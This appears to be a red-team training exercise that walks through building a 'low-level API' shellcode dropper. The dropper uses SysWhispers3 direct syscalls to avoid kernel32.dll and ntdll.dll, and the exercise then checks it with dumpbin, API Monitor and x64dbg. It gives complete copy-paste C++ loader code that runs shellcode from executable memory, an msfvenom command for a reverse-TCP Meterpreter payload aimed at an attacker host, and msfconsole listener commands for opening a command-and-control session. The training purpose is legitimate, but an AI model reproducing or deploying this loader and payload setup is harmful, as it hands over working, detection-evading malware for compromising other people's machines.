 ## Exercise 5: Low_Level_API_Dropper
In this exercise, we will make the second modification to the reference dropper, create the direct syscall dropper, and implement the required syscalls or syscall stub directly into the **Low-Level API shellcode dropper** for short **LLA dropper**. 
![low_level_dropper_principal](https://user-images.githubusercontent.com/50073731/235438881-e4af349a-0109-4d8e-80e2-730915c927f6.png)

## Exercise 5 tasks:
### Create LLA-Dropper 
1. Create necessary code for LLA-Dropper with SysWhispers3
1. Create a new C++ POC in Visual Studio 2019 and use the provided code for the LLA-Dropper.
2. Create staged x64 meterpreter shellcode with msfvenom and copy it to the C++ LLA-Dropper poc. 
3. Compile the LLA-Dropper as release or debug x64. 
4. Create and run a staged x64 meterpreter listener with msfconsole.
5. Run your compiled .exe and verify that a stable command and control channel opens. 
### Analyse HLA-Dropper
6. Use the Visual Studio tool dumpbin to analyze the compiled LLA-Dropper. Is the result what you expected?  
7. Use the API Monitor to analyze the compiled LLA-Dropper in the context of the four APIs used. Is the result what you expected? 
8. Use the x64dbg debugger to analyze the compiled LLA dropper: from which module and location are the syscalls from the four APIs used being executed?
Is the result what you expected? 

## SysWhispers 3
Again, we need to implement the code for the four native APIs we use, but unlike the Medium_Level dropper, we do not load the corresponding syscalls from ntdll.dll. Instead, we want to implement the necessary code directly in our LLA dropper. Therefore we have to create the corresponding code or files with the tool SysWhispers3 from [**@KlezVirus**](https://twitter.com/KlezVirus). To create the necessary code in context of our LLA-Dropper you can use the following command with SysWhispers. Because we work with the MSVC compiler in Visual Studio we choose for the -c parameter msvc. 
<details>
    
**kali>**
```
python syswhispers.py -a x64 -c msvc -f NtAllocateVirtualMemory,NtWriteVirtualMemory,NtCreateThreadEx,NtWaitForSingleObject -o syscalls -v
```
</details>

SysWhispers3 creates for us the three files **syscalls.h**, **syscalls.c** and **syscalls-asm.x64.asm**, which we later implement in our LLA-Dropper and which represent the code for the direct syscall implementation. 
<details>
 
<p align="center">
<img width="942" alt="image" src="https://user-images.githubusercontent.com/50073731/235453951-f99fe798-79b9-458e-93af-5d0b3c52a0de.png">
</details>



## Visual Studio
To create the LLA-Dropper project, follow the procedure of the high-level API dropper exercise, take a look to follow the necessary steps.
The code works as follows, shellcode declaration is the same as before in both droppers.
<details>

```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>


In the case of the LLA-Dropper, we also need to access the syscalls or syscalls stub from the respective native APIs. Again, we use the same native APIs as in the MLA-Dropper. 
But this time we do not want to run/import the syscalls from ntdll.dll and instead want to implement the functionality directly in the LLA-Dropper itself, we have to import the generated files/code from SysWhispers 3 into our LLA-Dropper. The syscalls.h provides the structure of the used native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject and the syscalls-asm.x64.asm contains the corresponding syscalls or syscall stubs. This allows the LLA dropper to execute syscalls directly without the transition from dropper.exe -> kernel32.dll -> ntdll.dll. Practically, we need to implement the generated code with SysWhispers 3 as follows: 

1. Copy all three files we created with SysWhispers 3 into the directory of your LLA-Dropper Visual Studio project.
<details>
 
<p align="center">
<img width="697" alt="image" src="https://user-images.githubusercontent.com/50073731/235456064-2b124b99-6936-4a96-a878-2e8dd8cdb460.png">
</details>

    
2. Add the syscalls.h file to your LLA-Dropper project as a header file. 
<details>
 
<p align="center">
<img width="1269" alt="image" src="https://user-images.githubusercontent.com/50073731/235456468-ffd08548-6f71-4904-821c-6d88580fa3fb.png">
<img width="599" alt="image" src="https://user-images.githubusercontent.com/50073731/235456549-4385fe3d-4a77-49d7-a153-19e0c5e54cf8.png">
</details>

3. We also need to include the header syscalls.h as a library in our code. 
Customisations.
<details>
 
<p align="center">
<img width="1285" alt="image" src="https://user-images.githubusercontent.com/50073731/235458107-e86178b5-f4f2-4110-a415-d93a08f61373.png">
</details>

4. Add the syscalls-asm.x64.asm file as a resource file. 
<details>
 
<p align="center">
<img width="1268" alt="image" src="https://user-images.githubusercontent.com/50073731/235456751-b44a0786-5225-46d7-9ec3-032a6b8ab36c.png">
<img width="590" alt="image" src="https://user-images.githubusercontent.com/50073731/235456831-138e449f-11ae-4cc6-9483-4073eed67c49.png">
</details>

5. Add the file syscall.c as source file
<details>
 
<p align="center">
<img width="1263" alt="image" src="https://user-images.githubusercontent.com/50073731/235457023-473375d1-591d-4479-b47c-2918af056ff2.png">
<img width="598" alt="image" src="https://user-images.githubusercontent.com/50073731/235457085-bf6775f0-c370-4bb0-b883-db99123b06ca.png">
</details>

6. To use the assembly code from the syscalls-asm.x64.asm file in Visual Studio, you must enable the Microsoft Macro Assembler (.masm) option in Build Dependencies/Build. Customisations.
<details>
 
<p align="center">
<img width="1278" alt="image" src="https://user-images.githubusercontent.com/50073731/235457590-371f3519-b7cf-483d-9c1c-6bfd6368be42.png">
<img width="590" alt="image" src="https://user-images.githubusercontent.com/50073731/235457782-780d2136-30d7-4e87-a022-687ed2557b33.png">
</details>

7. Then we need to set the Item Type of the syscalls-asm.x64.asm file to Microsoft Macro Assembler, otherwise we will get an unresolved symbol error in the context of the native APIs used in our LLA dropper. 
<details>
 
<p align="center">
<img width="950" alt="image" src="https://user-images.githubusercontent.com/50073731/235471947-4bcd23fc-5093-4f4d-adc8-eb3ef36f139f.png">    
<img width="1237" alt="image" src="https://user-images.githubusercontent.com/50073731/235458968-e330799e-51ff-46bf-97ab-c7d3be7ea079.png">
<img width="778" alt="image" src="https://user-images.githubusercontent.com/50073731/235459219-4387dc48-56f8-481c-b978-1b786843a836.png">
    
</details>

Here is the **complete code**, and you can copy and paste this code into your **LLA-Dropper** project in Visual Studio.
You can also download the complete **LLA-Dropper Visual Studio project** in the **Code Example section** of this repository.
<details>
    
```
#include <iostream>
#include <Windows.h>
#include "syscalls.h"

int main() {
    // Insert Meterpreter shellcode
    unsigned char code[] = "\xfc\x48\x83...";

    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread
    // Pass the address of the shellcode as the thread function (StartRoutine) and its parameter (Argument)
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the end of the thread to ensure the shellcode execution is complete
    NtWaitForSingleObject(hThread, FALSE, NULL);


    // Return 0 as the main function exit code
    return 0;
}
```
</details>

    
    
    
## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the LLA-Dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our LLA-Dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled LLA-Dropper.exe. If all goes well, you should see an incoming command and control session. 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>
        

    
## LLA-Dropper analysis: dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports high_level.exe
```
</details>    

<details>
    <summary>Solution</summary>  
    
**No imports** from the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject from kernel32.dll. This was expected and is correct.
<p align="center">
<img width="1023" alt="image" src="https://user-images.githubusercontent.com/50073731/235473764-c85ccc73-a1cb-403d-8162-172146375d96.png">
</p>
</details>   
    
    
## LLA-Dropper analysis: API-Monitor
For a correct check, it is necessary to filter to the correct APIs. Only by providing the correct Windows APIs and the corresponding native APIs, we can be sure that there are no more transitions in the context of the used APIs in our MLA dropper. We filter on the following API calls:
- VirtualAlloc
- NtAllocateVirtualMemory
- WriteProcessMemory
- NtWriteVirtualMemory
- CreateThread
- NtCreateThreadEx
- WaitForSingleObject
- NtWaitForSingleObject

<details>
    <summary>Solution</summary>    
If everything was done correctly, you could see that the four used Windows APIs and their native APIs are no longer imported from kernel32.dll and ntdll.dll to the LLA-Dropper.exe.
This result was expected and is correct because our LLA dropper has directly implemented the necessary syscalls or syscall stubs for the respective native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject.
<p align="center">
<img width="595" alt="image" src="https://user-images.githubusercontent.com/50073731/235480936-df805736-aad8-44a7-8bec-f8563735d1d2.png">
</p>
</details>    

## LLA-Dropper analysis: x64dbg 
Using x64dbg we want to validate from which module and location the respective system calls are executed in the context of the used Windows APIs -> native APIs?
Remember, now we have not implemented system calls or system call stubs directly in the dropper. What results would you expect?
<details>
    <summary>Solution</summary>
    
1. Open or load your LLA-Dropper.exe into x64dbg
2. Go to the Symbols tab, in the **left pane** in the **Modules column** select or highlight your **LLA-Dropper.exe**, in the **right pane** in the **Symbols column** filter for the first native API **NtAllocateVirtualMemory**, right click and **"Follow in Dissassembler"**. To validate the other three native APIs, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject, just **repeat this procedure**. Compared to the HLA-Dropper and the MLA-Dropper we can see that the symbols for the used native APIs are implemented directly in the dropper itself and not imported from the ntdll.dll.
    
<p align="center">    
<img width="979" alt="image" src="https://user-images.githubusercontent.com/50073731/235481553-012459f5-1284-44ed-b3ed-2b04bfcccd3b.png">
</p>
    
As expected, we can observe that the corresponding system calls for the native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx, NtWaitForSingleObject are no longer 
imported from the .text section in the ntdll.dll module. Instead the syscalls or syscalls stubs are directly implemtented into the .text section of the LLA-Dropper itself.
    
<p align="center">    
<img width="990" alt="image" src="https://user-images.githubusercontent.com/50073731/235482389-35cd8c12-593e-4089-b082-8eaf2ba6636a.png"></p>    
</details>


## Summary:
- Made transition from medium to low level or from Native APIs to direct syscalls
- Dropper imports no longer Windows APIs from kernel32.dll
- Dropper imports no longer Native APIs from ntdll.dll
- Syscalls or syscall stubs are "implemented" directly into .text section of .exe
